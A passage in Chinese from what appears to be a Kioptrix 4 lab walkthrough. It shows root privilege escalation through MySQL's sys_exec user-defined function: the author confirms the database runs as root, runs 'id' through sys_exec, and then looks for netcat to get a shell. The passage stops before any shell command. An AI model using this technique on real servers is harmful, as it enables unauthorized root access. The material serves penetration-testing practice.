 这里直接登录

在列举了这些数据库之后，我们发现了一些有趣的事情：

```
mysql> select * from mysql.func;
+-----------------------+-----+---------------------+----------+
| name                  | ret | dl                  | type     |
+-----------------------+-----+---------------------+----------+
| lib_mysqludf_sys_info |   0 | lib_mysqludf_sys.so | function | 
| sys_exec              |   0 | lib_mysqludf_sys.so | function | 
+-----------------------+-----+---------------------+----------+
2 rows in set (0.00 sec)
```

经过一番搜索发现该sys\_exec函数是一个非常真实的权限提升向量。有一个可用的sys\_exec漏洞，但是通过快速阅读源代码，我们可以轻松地手动执行此操作。

首先，让我们看看用户mysql正在以什么身份运行。我们可以通过以下方式找到它ps：

```
john@Kioptrix4:~$ ps -ef | grep -i mysql
root      4423     1  0 12:12 ?        00:00:00 /bin/sh /usr/bin/mysqld_safe
root      4465  4423  0 12:12 ?        00:00:03 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --user=root
root      4467  4423  0 12:12 ?        00:00:00 logger -p daemon.err -t mysqld_safe -i -t mysqld
john      5192  4862  0 19:03 pts/0    00:00:00 mysql -uroot -p
john      5194  5174  0 19:03 pts/1    00:00:00 grep -i mysql
```

它正在以root权限运行

为了仔细检查并测试我们的sys\_exec漏洞，我们可以id从 MySQL 客户端运行并将输出重定向到文件。

来自MySQL：

```
mysql> select sys_exec('id > /tmp/id; chown john:john /tmp/id');
+---------------------------------------------------+
| sys_exec('id > /tmp/id; chown john:john /tmp/id') |
+---------------------------------------------------+
| NULL                                              | 
+---------------------------------------------------+
1 row in set (0.00 sec)
```

现在，从标准 shell 导航到该/tmp目录。

```
john@Kioptrix4:/tmp$ ls
id
john@Kioptrix4:/tmp$ cat id 
uid=0(root) gid=0(root)
```

所以我们肯定是这样运行的root！我们来拿个壳吧。

nc在远程计算机上找不到，但我们确实找到了netcat：

```
john@Kioptrix4:/tmp$ which nc
john@Kioptrix4:/tmp$ which netcat
/bin/netcat
```
